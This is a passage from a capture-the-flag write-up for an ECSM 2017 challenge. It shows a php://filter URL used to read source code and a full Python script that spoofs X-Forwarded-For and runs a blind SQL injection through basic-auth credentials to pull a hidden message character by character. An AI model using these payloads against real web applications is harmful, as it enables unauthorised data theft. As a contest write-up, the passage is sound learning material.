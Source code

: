 > <http://ecsm2017.cert.pl:6044/index.php/php://filter/convert.base64-encode/resource=instructions>

We just need to decode from the base64 string

[View Gist](https://gist.github.com/pawlos/e7f0cfafe807ae948f91b0a5aeed6542)

In the code we see exactly that our logic is confirmed. There is an IP range check, SQL injection and why the password will not work. We can also see that the DB is sqlite. The most important part is that the message is waiting for us in the messages table. Let's extract that:
[code]
    # -*- coding: utf-8 -*-
    #korea.py
    import requests
    import string

    url = "http://ecsm2017.cert.pl:6044/index.php/instructions"
    headers = {'X-Forwarded-For':'175.45.176.110'}

    bulk = ""

    while True:
    	for i in string.printable:
    		if i == '%' or i == "'" or i == ':' or i=="_":
    			continue
    		user = "admin' and (select CASE WHEN message like '"+bulk+i+"%' THEN 1 ELSE 0 END from instructions)=1-- "
    		pwd = bulk
    		res = requests.get(url, headers=headers, auth=(user, pwd))
    		if "WWW-Authenticate" not in res.headers:
    			print res.headers
    			print res.content
    			break
    		elif "WRONG PASSWORD" in res.headers["WWW-Authenticate"]:
    			bulk += i
    			print bulk
    			break
    res = requests.get(url, headers=headers, auth=(user, pwd))
    print res.headers
    print res.content

[/code]

Finally the flag is: `ecsm{cyber.szpiegostwo}`.

## Final words

It was a fun challenge to solve those two tasks - I hope the rest will remain online after the challenge and be as fun as those two.
